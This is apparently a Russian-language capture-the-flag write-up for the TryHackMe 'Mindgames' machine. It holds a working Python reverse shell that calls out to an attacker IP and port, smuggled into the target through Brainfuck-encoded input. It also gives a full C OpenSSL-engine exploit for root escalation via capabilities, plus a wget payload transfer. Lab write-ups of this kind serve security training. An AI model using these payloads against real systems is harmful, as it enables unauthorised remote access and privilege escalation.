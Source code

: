 # Mindgames

:white_check_mark:  [**Brainfuck**](#brainfuck)

:white_check_mark: [**Shell stabilisation**](#stable)

:white_check_mark: [**Openssl(capabilities)(privesc)**](#openssl_cap)

:white_check_mark: [**Sending files**](#files_send)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV mind.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **mind.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/1.png)

<a name="brainfuck"></a>

## Getting shell
Видим набор странных символов. Так выглядит **brainfuck**. Перейдем на сайт [dcode](https://www.dcode.fr/brainfuck-language) и раскодируем текст.
```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
```
print("Hello, World")
```

Попробуем подставить закодированный вариант кода в строку для ввода данных. Получаем ответ: **Hello, World**. Приложение обрабатывает закодированный запрос и выдает ответ. Загрузим туда обратную оболочку.

Обратная оболочка:
```
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.61.235",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Вставим код на [сайте](https://www.splitbrain.org/services/ook) для кодирования(на нем проще скопировать код, чем на dcode). Получаем ответ, копируем его и вставляем в наше приложение.

Предварительно запустив слушатель, получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/2.png)

<a name="stable"></a>

Стабилизируем оболочку командами:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+z
stty raw echo; fg
```

<a name="openssl_cap"></a>

## Getting root
Загрузим linpeas на машину и запустим скрипт. Он найдет нам интересные capabilities:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/3.png)

Найдем в интернете [эксплоит](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

Создадим файл с названием **openssl-exploit-engine.c** и запишем в него следующий код:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

(Предварительно установим нужные пакеты командой **sudo apt-get install libssl-dev**).

Скомпилируем код командами:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Отправим наш скомпилированный файл на удаленную машину и запустим командой:
```
openssl req -engine ./openssl-exploit-engine.so
```

Получаем рут

<a name="files_send"></a>

## Extra
Чтобы отправить файл на удаленную машину переходим в директорию с нужным нам файлом. Открываем питон сервер командой:
```
python3 -m http.server 2222
```

На удаленной машине с помощью **wget** или **curl** скачиваем нужный нам файл:
```
wget http://your-ip/2222/openssl-exploit-engine.so
```

![](https:/github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/5.png)
